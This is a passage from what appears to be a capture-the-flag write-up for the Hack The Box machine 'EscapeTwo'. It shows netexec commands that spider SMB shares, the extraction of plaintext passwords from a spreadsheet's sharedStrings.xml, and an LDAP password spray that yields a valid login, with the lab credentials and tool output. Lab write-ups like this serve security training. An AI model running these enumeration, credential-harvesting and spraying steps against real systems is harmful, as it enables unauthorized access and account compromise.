 ```bash
        MAX_FILE_SIZE     Max file size to download (Default: 51200)
        OUTPUT_FOLDER     Path of the local folder to save files (Default: /tmp/nxc_spider_plus)
```

It returns a json with file names and sizes.
```bash
netexec smb $(cat ip.txt) -u rose -p 'KxEPkKe6R8su' -M spider_plus -o OUTPUT_FOLDER=./smb
# ...
# {
#     "Accounting Department": {
#         "accounting_2024.xlsx": {
#             "atime_epoch": "2024-06-09 06:50:41",
#             "ctime_epoch": "2024-06-09 05:45:02",
#             "mtime_epoch": "2024-06-09 07:11:31",
#             "size": "9.98 KB"
#         },
#         "accounts.xlsx": {
#             "atime_epoch": "2024-06-09 06:52:21",
#             "ctime_epoch": "2024-06-09 06:52:07",
#             "mtime_epoch": "2024-06-09 07:11:31",
#             "size": "6.62 KB"
#         }
#     }
# }
# ...
```

Tried opening the `accounts.xlsx` with libreoffice but it didn't work. Since .xlsx files are just zip files we can just look straight at the data. `xl/sharedStrings.xml` has a lot of credentials, cleaning it up:
```
Email: angela@sequel.htb
Username: angela
Password: 0fwz7Q4mSpurIt99

Email: oscar@sequel.htb
Username: oscar
Password: 86LxLBMgEWaKUnBG

Email: kevin@sequel.htb
Username: kevin
Password: Md9Wlq1E5bZnVDVo

Email: sa@sequel.htb
Username: sa
Password: MSSQLP@ssw0rd!
```

Lets grab every user from ldap and spray the passwords.
```bash
netexec ldap $(cat ip.txt) -u users.txt -p passwords.txt --continue-on-success
~/workspace/projects/htb/escapetwo » netexec ldap $(cat ip.txt) -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
----------------------------------------------------------------------------------------------------------------
```
